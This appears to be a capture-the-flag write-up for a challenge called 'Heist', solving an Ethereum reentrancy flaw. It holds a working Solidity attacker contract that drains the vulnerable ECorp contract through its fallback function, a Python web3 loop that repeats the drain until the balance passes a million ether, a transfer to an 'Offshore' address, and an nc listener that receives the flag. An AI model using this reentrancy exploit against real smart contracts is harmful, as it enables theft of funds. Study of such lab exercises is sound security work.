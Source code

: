 # Heist

This is an ethereum reentrancy vulnerability. We can deploy an attacker contract and use that to interact with the vulnerable ECorp contract which will drain all of its funds into our contract's address. The selfdestruct at the end transfers our contract's balance back to our personal account.

1. Deploy the exploit contract:

```Solidity
pragma solidity ^0.5.10;

import './ECorp.sol';

contract Exploit {
    ECorp public expl = ECorp(0xB36f4d32522A55B6cfb038F2F19b8A3d01D104f4);
    address payable owner;

    constructor() public {
        owner = msg.sender;
    }

    function startAttack() public payable {
        expl.withdrawBalance();
        selfdestruct(msg.sender);
    }

    function () payable external {
        expl.withdrawBalance();
    }
}
```

2. Call the contract using web3's python API:

```Python
def exploit(w3, exploit_contract):
    # Deploy the attack contract
    exploit_contract_address = deploy_contract(w3, account, exploit_contract)

    # Deposit an inital amount for the attack contract
    contract = ECorp(w3, account, ecorp_contract, ECORP_CONTRACT_ADDRESS)
    contract.deposit(exploit_contract_address, 100)

    # Exploit
    exploit = Exploit(w3, account, exploit_contract, exploit_contract_address)
    exploit.exploit()

while True:
    current_balance = getBalance(account.address)
    print(f"Current balance is: {current_balance}")
    if current_balance > 1000000:
        break
    exploit(w3, exploit_contract)
```

3. Send the 1m ether to the Offshore contract address:

```Python
win_tx = {
    'from': account.address,
    'to': OFFSHORE_CONTRACT_ADDRESS,
    'gas': 1000000,
    'gasPrice': w3.eth.gasPrice,
    'data': w3.toHex(b'172.17.0.3:1337'),
    'value': w3.toWei('1000000', 'ether'),
    'nonce': w3.eth.getTransactionCount(account.address)
}

signed = account.sign_transaction(win_tx)
tx_hash = w3.eth.sendRawTransaction(signed.rawTransaction)
```

4. Listen on port 1337 for the flag:

```
nc -lvp 1337
Connection from 192.168.1.206:38840
CUCTF{1M_4nd_A_Cl34n_G3Taw4Y}
```
